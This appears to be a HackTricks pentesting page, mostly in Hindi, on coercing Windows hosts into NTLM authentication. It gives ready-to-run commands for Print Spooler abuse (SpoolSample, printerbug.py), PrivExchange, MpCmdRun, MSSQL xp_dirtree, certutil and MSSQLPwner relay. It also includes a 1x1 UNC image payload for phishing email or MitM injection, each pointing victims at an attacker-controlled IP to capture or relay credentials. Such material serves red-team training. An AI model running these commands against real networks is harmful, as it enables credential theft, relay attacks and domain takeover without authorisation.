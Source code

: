 # Force NTLM Privileged Authentication

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SharpSystemTriggers

[**SharpSystemTriggers**](https://github.com/cube0x0/SharpSystemTriggers) एक **संग्रह** है **दूरस्थ प्रमाणीकरण ट्रिगर्स** का जो C# में MIDL कंपाइलर का उपयोग करके कोडित किया गया है ताकि 3rd पार्टी निर्भरताओं से बचा जा सके।

## Spooler Service Abuse

यदि _**Print Spooler**_ सेवा **सक्रिय** है, तो आप कुछ पहले से ज्ञात AD क्रेडेंशियल्स का उपयोग करके डोमेन कंट्रोलर के प्रिंट सर्वर से नए प्रिंट जॉब्स पर एक **अपडेट** **अनुरोध** कर सकते हैं और बस इसे **किसी सिस्टम को सूचना भेजने** के लिए कह सकते हैं।\
ध्यान दें कि जब प्रिंटर किसी मनमाने सिस्टम को सूचना भेजता है, तो इसे उस **सिस्टम** के खिलाफ **प्रमाणित** होना आवश्यक है। इसलिए, एक हमलावर _**Print Spooler**_ सेवा को किसी मनमाने सिस्टम के खिलाफ प्रमाणित करवा सकता है, और सेवा इस प्रमाणीकरण में **कंप्यूटर खाता** का **उपयोग** करेगी।

### Finding Windows Servers on the domain

PowerShell का उपयोग करके, Windows बॉक्सों की एक सूची प्राप्त करें। सर्वर आमतौर पर प्राथमिकता होते हैं, इसलिए आइए वहीं ध्यान केंद्रित करें:
```bash
Get-ADComputer -Filter {(OperatingSystem -like "*windows*server*") -and (OperatingSystem -notlike "2016") -and (Enabled -eq "True")} -Properties * | select Name | ft -HideTableHeaders > servers.txt
```
### Finding Spooler services listening

थोड़े संशोधित @mysmartlogin के (विन्सेंट ले टॉक्स के) [SpoolerScanner](https://github.com/NotMedic/NetNTLMtoSilverTicket) का उपयोग करके देखें कि क्या Spooler Service सुन रही है:
```bash
. .\Get-SpoolStatus.ps1
ForEach ($server in Get-Content servers.txt) {Get-SpoolStatus $server}
```
आप Linux पर rpcdump.py का उपयोग कर सकते हैं और MS-RPRN प्रोटोकॉल की तलाश कर सकते हैं।
```bash
rpcdump.py DOMAIN/USER:PASSWORD@SERVER.DOMAIN.COM | grep MS-RPRN
```
### सेवा को किसी मनमाने होस्ट के खिलाफ प्रमाणीकरण के लिए कहें

आप [**SpoolSample को यहाँ से संकलित कर सकते हैं**](https://github.com/NotMedic/NetNTLMtoSilverTicket)**.**
```bash
SpoolSample.exe <TARGET> <RESPONDERIP>
```
या [**3xocyte's dementor.py**](https://github.com/NotMedic/NetNTLMtoSilverTicket) या [**printerbug.py**](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) का उपयोग करें यदि आप Linux पर हैं
```bash
python dementor.py -d domain -u username -p password <RESPONDERIP> <TARGET>
printerbug.py 'domain/username:password'@<Printer IP> <RESPONDERIP>
```
### Unconstrained Delegation के साथ संयोजन

यदि एक हमलावर पहले से ही [Unconstrained Delegation](unconstrained-delegation.md) के साथ एक कंप्यूटर को समझौता कर चुका है, तो हमलावर **प्रिंटर को इस कंप्यूटर के खिलाफ प्रमाणित करने** के लिए मजबूर कर सकता है। अनियंत्रित प्रतिनिधित्व के कारण, **प्रिंटर के कंप्यूटर खाते का TGT** उस कंप्यूटर की **मेमोरी** में **सहेजा जाएगा** जिसमें अनियंत्रित प्रतिनिधित्व है। चूंकि हमलावर पहले से ही इस होस्ट को समझौता कर चुका है, वह **इस टिकट को पुनः प्राप्त** करने और इसका दुरुपयोग करने में सक्षम होगा ([Pass the Ticket](pass-the-ticket.md))।

## RCP बल प्रमाणीकरण

{% embed url="https://github.com/p0dalirius/Coercer" %}

## PrivExchange

`PrivExchange` हमला **Exchange Server `PushSubscription` फीचर** में पाए गए दोष का परिणाम है। यह फीचर किसी भी डोमेन उपयोगकर्ता को जो एक मेलबॉक्स रखता है, को HTTP के माध्यम से किसी भी क्लाइंट-प्रदानित होस्ट के खिलाफ Exchange सर्वर को प्रमाणित करने के लिए मजबूर करने की अनुमति देता है।

डिफ़ॉल्ट रूप से, **Exchange सेवा SYSTEM के रूप में चलती है** और इसे अत्यधिक विशेषाधिकार दिए जाते हैं (विशेष रूप से, इसके पास **डोमेन प्री-2019 समेकित अपडेट पर WriteDacl विशेषाधिकार** हैं)। इस दोष का उपयोग **LDAP पर जानकारी के पुनः प्रेषण को सक्षम करने और इसके बाद डोमेन NTDS डेटाबेस को निकालने** के लिए किया जा सकता है। उन मामलों में जहां LDAP पर पुनः प्रेषण संभव नहीं है, इस दोष का उपयोग डोमेन के भीतर अन्य होस्टों के खिलाफ पुनः प्रेषण और प्रमाणीकरण के लिए किया जा सकता है। इस हमले का सफलतापूर्वक शोषण करने से किसी भी प्रमाणित डोमेन उपयोगकर्ता खाते के साथ डोमेन व्यवस्थापक तक तात्कालिक पहुंच मिलती है।

## Windows के अंदर

यदि आप पहले से ही Windows मशीन के अंदर हैं, तो आप विशेषाधिकार प्राप्त खातों का उपयोग करके Windows को एक सर्वर से कनेक्ट करने के लिए मजबूर कर सकते हैं:

### Defender MpCmdRun
```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\<YOUR IP>\file.txt
```
### MSSQL
```sql
EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1
```
[MSSQLPwner](https://github.com/ScorpionesLabs/MSSqlPwner)
```shell
# Issuing NTLM relay attack on the SRV01 server
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on chain ID 2e9a3696-d8c2-4edd-9bcc-2908414eeb25
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -chain-id 2e9a3696-d8c2-4edd-9bcc-2908414eeb25 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on the local server with custom command
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth ntlm-relay 192.168.45.250
```
या इस अन्य तकनीक का उपयोग करें: [https://github.com/p0dalirius/MSSQL-Analysis-Coerce](https://github.com/p0dalirius/MSSQL-Analysis-Coerce)

### Certutil

NTLM प्रमाणीकरण को मजबूर करने के लिए certutil.exe lolbin (Microsoft-हस्ताक्षरित बाइनरी) का उपयोग करना संभव है:
```bash
certutil.exe -syncwithWU  \\127.0.0.1\share
```
## HTML injection

### Via email

यदि आप उस उपयोगकर्ता का **ईमेल पता** जानते हैं जो उस मशीन में लॉग इन करता है जिसे आप समझौता करना चाहते हैं, तो आप बस उसे एक **1x1 छवि** के साथ **ईमेल** भेज सकते हैं जैसे
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
और जब वह इसे खोलेगा, तो वह प्रमाणीकरण करने की कोशिश करेगा।

### MitM

यदि आप किसी कंप्यूटर पर MitM हमला कर सकते हैं और एक पृष्ठ में HTML इंजेक्ट कर सकते हैं जिसे वह देखेगा, तो आप पृष्ठ में निम्नलिखित की तरह एक छवि इंजेक्ट करने की कोशिश कर सकते हैं:
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
## NTLMv1 को क्रैक करना

यदि आप [NTLMv1 चुनौतियों को कैप्चर कर सकते हैं, तो यहां पढ़ें कि उन्हें कैसे क्रैक करें](../ntlm/#ntlmv1-attack)।\
&#xNAN;_&#x52;emember कि NTLMv1 को क्रैक करने के लिए आपको Responder चुनौती को "1122334455667788" पर सेट करना होगा_

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जांच करें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमारे** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)** का पालन करें।**
* **हैकिंग ट्रिक्स साझा करें, PRs को** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में सबमिट करके।

</details>
{% endhint %}

